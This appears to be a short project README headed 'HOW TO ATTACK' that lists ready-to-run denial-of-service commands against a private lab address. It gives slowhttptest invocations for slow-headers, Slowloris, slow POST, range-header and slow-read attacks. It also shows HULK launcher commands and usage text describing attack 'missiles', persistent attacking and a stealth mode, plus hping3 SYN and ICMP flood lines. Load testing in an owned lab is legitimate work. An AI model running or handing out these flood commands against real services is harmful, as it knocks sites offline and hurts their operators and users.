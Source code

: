 # HOW TO ATTACK

## Slowhttptest
```
slowhttptest -H -g -c 5260 -i 10 -r 30 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```

    -H: Enable slow headers attack
    -g: Generate headers randomly
    -c 5260: Number of connections to create
    -i 10: Interval between follow-up data in seconds
    -r 30: Number of requests per connection
    -t GET: HTTP method to use (GET in this case)
    -u http://10.100.0.2:3000/: Target URL to attack
    -x 24: Number of simultaneous connections
    -p 3: Number of child processes to fork
SLOWLORIS
```
slowhttptest -c 1000 -H -g -i 10 -r 200 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3


```
SLOW HTTP POST
```
slowhttptest -c 3000 -B -g -i 110 -r 200 -s 8192 -t POST -u http://10.100.0.2:3000/ -x 10 -p 3

```
RANGE HEADER
```
slowhttptest -R -u http://10.100.0.2:3000/ -t HEAD -c 1000 -a 10 -b 3000 -r 500
```
SLOW READ
```
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://10.100.0.2:3000/ -p 3
```
## hulk
```
python3 HULK-v3/hulk_launcher.py server http://10.100.0.2:3000
```
```
python3 HULK-v3/hulk_launcher.py client -n 10
```
### Server :computer:
```
usage: hulk_launcher.py server [-h] [-p PORT] [-m MAX_MISSILES] [--persistent] [--gui] target

The Hulk Server Launcher

positional arguments:
target                the target url.

options:
-h, --help            show this help message
-p PORT, --port PORT  the Port to bind the server to.
-m MAX_MISSILES, --max_missiles MAX_MISSILES the maximum number of missiles to connect to.
--persistent          keep attacking even after target goes down.
--gui                 run on the GUI mode.
```

### Client :space_invader:
```
usage: hulk_launcher.py client [-h] [-r ROOT_IP] [-p ROOT_PORT] [-n NUM_PROCESSES] [-s]

The Hulk Bot Launcher

options:
-h, --help            show this help message
-r ROOT_IP, --root_ip ROOT_IP                        IPv4 Address where Hulk Server is running.
-p ROOT_PORT, --root_port ROOT_PORT                  Port where Hulk Server is running.
-n NUM_PROCESSES, --num_processes NUM_PROCESSES      Number of Processes to launch.
-s, --stealth         Stealth mode.
```
###hping3
```
hping3 -S -p 3000 --flood 10.100.0.2
hping3 -p 3000 --icmp --flood 10.100.0.2 


